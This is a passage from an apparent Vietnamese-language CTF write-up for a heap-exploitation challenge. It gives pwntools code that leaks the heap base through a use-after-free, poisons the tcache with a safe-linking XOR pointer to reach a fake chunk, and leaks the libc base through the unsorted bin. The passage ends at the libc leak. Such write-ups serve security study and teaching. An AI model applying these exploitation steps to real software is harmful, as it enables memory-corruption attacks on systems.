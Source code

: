 ```python3
free(0) # đoạn này giống ở trên rồi , để leak heap thôi
view(0)
leak=int.from_bytes(p.recvuntil(b" Allocate",drop=True).split(b"\n")[0],"little")
log.info('[+]leak:'+hex(leak))
heap=leak<<12
log.info('[+]heap base:'+hex(heap))
free(1) #  free chunk1 để chuẩn bị thực hiện tấn công
```

![image](https://user-images.githubusercontent.com/93699926/236654526-8cfc34d5-dc23-4cc7-8c2d-c78b2811e34b.png)

Ta đã leak dược dịa chỉ heap base, giờ hãy kiểm tra heap bin và tính toán :

![image](https://user-images.githubusercontent.com/93699926/236654556-65ec3063-3140-4c95-aca7-ecd502a40a6a.png)

ta có chunk1 ở địa chỉ heap base+0x8a0, và fake chunk của ta ở vị trí :

![image](https://user-images.githubusercontent.com/93699926/236654613-e02ff7d5-a9da-4bdd-be5d-d3e9a1d84096.png)
 
 hilight vàng là chunk dầu tiên ta tạo ra , đánh dấu màu đỏ là cái fake chunk size ta tạo ra , vậy bây giờ để sao cho chunk trong tcache bin chỉ đến cái fake chunks của ta thì ta sẽ lấy địa chỉ của chunk1 là :
 (heap base+0x8a0)>>12 ^ địa chỉ của (fakechunk) , địa chỉ không tính phần metadata nha.==> (heap base+0x8a0)>>12 ^ (heap base+0x2c0).
 
 ```python
 payload=p64((heap+0x8a0)>>12^(heap+0x2c0))
edit(1,payload)
```

ta sẽ có như sau :

![image](https://user-images.githubusercontent.com/93699926/236654753-df26b23c-7d53-402a-b2c5-a91160f65953.png)

đó nó trỏ đến chunk có size 0x500 rồi . giờ ta lấy nó ra và free nó một lần nữa thì nó sẽ vô unsorted bin

```python
payload=p64((heap+0x8a0)>>12^(heap+0x2c0))
edit(1,payload)

add(0,248,b"A"*248)
add(0,248,b"A"*248)
free(0)

view(0)
leak=int.from_bytes(p.recvuntil(b" Allocate",drop=True).split(b"\n")[0],"little")
log.info('[+]leak:'+hex(leak))
libc.address=leak-0x219ce0
log.info('[+]libc base:'+hex(libc.address))
```
![image](https://user-images.githubusercontent.com/93699926/236654821-fc4702bd-723a-46d9-8078-e53dcb7da805.png)

leak libc thành công!!!
